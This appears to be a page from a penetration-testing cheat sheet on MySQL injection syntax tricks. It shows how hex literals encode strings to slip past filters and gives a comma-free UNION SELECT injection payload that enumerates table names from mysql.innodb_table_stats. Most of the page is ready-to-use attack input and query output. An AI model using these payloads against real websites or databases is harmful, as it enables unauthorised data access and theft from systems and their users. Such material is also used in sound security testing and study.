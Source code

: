 # Syntax tricks

## Encoding tricks

[https://dev.mysql.com/doc/refman/5.7/en/hexadecimal-literals.html](https://dev.mysql.com/doc/refman/5.7/en/hexadecimal-literals.html)

instead of using ASCII strings can also be represented in HEX, for example: 

```text
SELECT 0x5461626c65, CHARSET(0x5461626c65);
+--------------+-----------------------+
| 0x5461626c65 | CHARSET(0x5461626c65) |
+--------------+-----------------------+
| Table        | binary                |
+--------------+-----------------------+
mysql> SELECT X'4D7953514C', CHARSET(X'4D7953514C');
+---------------+------------------------+
| X'4D7953514C' | CHARSET(X'4D7953514C') |
+---------------+------------------------+
| MySQL         | binary                 |
+---------------+------------------------+
mysql> SELECT concat(0x31333337,0x206840783072)
+-----------------------------------+
| concat(0x31333337,0x206840783072) |
+-----------------------------------+
| 1337 h@x0r |
+-----------------------------------+
```

### MySQL injection without COMMAS <a id="mysqlinjection-without-commas"></a>

{% embed url="https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma" %}

```text
-1' union select * from (select 1)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 on 1=1#
```

